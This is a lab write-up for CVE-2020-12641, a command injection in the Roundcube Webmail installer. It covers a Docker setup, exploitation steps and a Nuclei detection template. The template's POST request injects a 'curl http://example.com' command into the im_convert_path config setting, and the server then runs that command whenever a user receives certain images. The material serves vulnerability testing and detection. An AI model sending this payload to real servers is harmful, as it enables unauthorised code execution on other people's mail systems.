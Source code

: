 # CVE-2020-12641 : Roundcube Webmail - Command Injection

## Description:
Roundcube Webmail before 1.4.4 contains a command injection caused by shell metacharacters in configuration settings for im_convert_path or im_identify_path, letting attackers execute arbitrary code, exploit requires attacker to control configuration settings.

## Reference:
- https://nvd.nist.gov/vuln/detail/CVE-2020-12641
- https://github.com/mbadanoiu/MAL-004
- https://github.com/mbadanoiu/CVE-2020-12641

## Vulnerable Setup

- Execute the following commands to start an unconfigured roundcube mailserver:

```
docker compose up --build -d
```

- This vulnerable version of roundcube has the installer exposed via the config setting `$config['enable_installer'] = true;` in `config.ini.php`.

## Exploitation Steps

- Visit: http://localhost/roundcube

- This will display the login page the config settings can be found at http://localhost/roundcube/installer/

- By making a POST request to http://localhost/roundcube/installer/index.php with the body parameter `_im_convert_path` it is possible to inject a system command into the `config.ini.php` file on the server.

- When any user opens any email containing a "non-standard" image this config setting will get executed, as an example an attacker can send a TIFF image to the user and roundcube will attempt to convert it to "JPG" format triggering the arbitrary code in `im_convert_path`

## Steps to Write Nuclei Template

**HTTP Request Section**

```
http:
  - method: POST
    path:
      - "{{BaseURL}}/installer/index.php"
      - "{{BaseURL}}/roundcube/installer/index.php"
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: _step=2&_product_name=Roundcube+Webmail&_support_url=&_skin_logo=&_temp_dir=%2Fvar%2Fwww%2Fhtml%2Froundcube%2Ftemp%2F&_des_key=aaCGmrf1vc2NIJ8whIA3aG9x&_enable_spellcheck=1&_spellcheck_engine=googie&_identities_level=0&_log_driver=file&_log_dir=%2Fvar%2Fwww%2Fhtml%2Froundcube%2Flogs%2F&_syslog_id=roundcube&_syslog_facility=8&_dbtype=mysql&_dbhost=localhost&_dbname=roundcube&_dbuser=roundcube&_dbpass=roundcube&_db_prefix=&_default_host%5B%5D=localhost&_default_port=143&_username_domain=&_auto_create_user=1&_sent_mbox=Sent&_trash_mbox=Trash&_drafts_mbox=Drafts&_junk_mbox=Junk&_smtp_server=localhost&_smtp_port=587&_smtp_user=%25u&_smtp_pass=%25p&_smtp_user_u=1&_smtp_log=1&_language=&_skin=elastic&_mail_pagesize=50&_addressbook_pagesize=50&_prefer_html=1&_htmleditor=0&_draft_autosave=300&_mdn_requests=0&_mime_param_folding=1&_plugins_autologon=autologon&_plugins_enigma=enigma&_plugins_zipdownload=zipdownload&submit=UPDATE+CONFIG&G&_im_convert_path=curl+http%3a//example.com
```

- This sends a POST request to both `/installer/index.php` and `/roundcube/installer/index.php`.

- The POST request body is a submission of the `_step_2` form with the standard configuration options plus `&_im_convert_path=curl+http%3a//example.com` which will inject this `curl` command into `$config['im_convert_path']` of the `/var/www/html/roundcube/config/config.inc.php` file

- Each time users of the Roundcube webmail server recieve an email containing a "non-standard" image, Roundcube will attempt to convert it to "JPG" using this config line.

**Matchers Section**

```
    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200

      - type: word
        words:
          - 'Roundcube Webmail Installer'
          - 'The config file was saved successfully'
        condition: and
        part: body
```

- `type: status` ensures that the server responded with a successful `200 OK` status.

- `type: word & condition:` and ensures all the expected content is present in the body.

## Nuclei Template URL : [CVE-2020-12641](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2020/CVE-2020-12641.yaml)

## Nuclei Command :

```bash
nuclei -u http://localhost -id CVE-2020-12641 -vv
```
